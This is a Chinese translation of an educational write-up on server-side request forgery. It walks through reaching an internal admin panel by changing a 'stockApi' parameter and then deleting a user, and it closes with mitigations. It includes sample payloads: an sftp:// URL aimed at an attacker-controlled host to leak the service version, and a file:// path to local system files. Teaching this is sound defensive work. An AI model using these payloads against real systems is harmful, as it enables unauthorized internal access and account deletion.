






# 利用:用于管理员访问的 SSRF

> 原文：<https://infosecwriteups.com/exploiting-ssrf-for-admin-access-31c30457cc44?source=collection_archive---------2----------------------->

**简介:**

服务器端请求伪造(SSRF):- SSRF 是一种攻击，攻击者可以迫使易受攻击的服务器触发对第三方服务器和/或内部资源的恶意请求。然后，可以利用此漏洞发起特定的攻击，例如跨站点端口攻击、服务枚举和各种其他攻击。

通常，攻击者可以完全或部分控制正在发送的请求，服务器会在不进行任何验证的情况下处理该请求。

**工作中** : SSRF 可用于向防火墙后或未公开面对的其他内部资源发出请求。通过使用 SSRF，我们可以访问基础架构参数，有时这些参数很容易被利用，进一步利用基础架构。

我们试图通过下图来理解。

攻击者试图访问内部服务器，因为防火墙阻止了对内部服务器的直接访问，所以他/她的访问被拒绝。

所以他试图访问公共服务器。他试图在公共服务器上创建一个请求，公共服务器将该请求发送到内部服务器。

内部服务器将响应由内部资源发送的精心编制的请求

通过使用上述步骤，攻击者获得了他在步骤 1 中无法获得的内部服务器的访问权限。

**攻击场景:**根据需求，以不同的方式向内部服务器发送请求。

**在受防火墙保护的内部网上的内部主机上进行端口扫描:**它使攻击者能够针对防火墙后面的系统执行端口扫描。根据响应的不同，攻击者可以推断出开放和关闭的端口。

**枚举服务/泄露敏感信息:**攻击者可以枚举 SSH、DICT、SFTP 和其他协议的版本[***https://test.com/uri?url=sftp://attacker:1112/***](https://test.com/uri?url=sftp://attacker:1112/)这将向攻击者控制的服务器发送请求，泄露所用 SFTP 的版本。您也可以使用 FTP、DICT、GOPHER 等其他模式来枚举它们的版本。

**攻击内部应用:**可疑参数上的漏洞，因为我们不知道服务器是如何处理参数的。因此攻击者可以通过操纵请求中的参数来访问内部应用程序。

**使用文件处理程序访问本地 web 服务器文件:*file:///c:/windows/system32/。*:**

**剥削:**

我们的目标是获得对管理仪表板的访问权限，并删除一个从外部无法访问的用户。

该应用程序具有股票特性功能，可从内部系统获取数据。管理接口位于 [http://localhost/admin](http://localhost/admin) 。

现在通过 burp 拦截股票 URL 请求:

**请求:**

在这里，我们可以清楚地看到主体“stockApi”正在向一个端点发送一个请求，我们可以完全控制这个参数，我们可以根据需要修改它。让我们将这个请求发送到 repeater，并尝试修改股票 API 参数。

**请求&响应:**

在上面的屏幕截图中，我们可以看到我们可以使用修改后的请求访问管理面板。我们得到了三个用户名和他们各自的网址来删除现有的帐户。所以我用删除用户端点替换“stock API”URL，并检查结果。

**请求:**

转发这个请求后，我得到 302(重定向)

当我启动 follow redirection 时，它将我重定向到 admin URL，并显示一条消息说该用户已被删除。

我们有管理员权限。

**预防措施/缓解措施**

不要相信用户数据和执行数据验证。

将应用程序需要访问的 DNS 名称或 IP 地址列入白名单

禁用未使用的 URL 模式，如 ftp://、s ftp://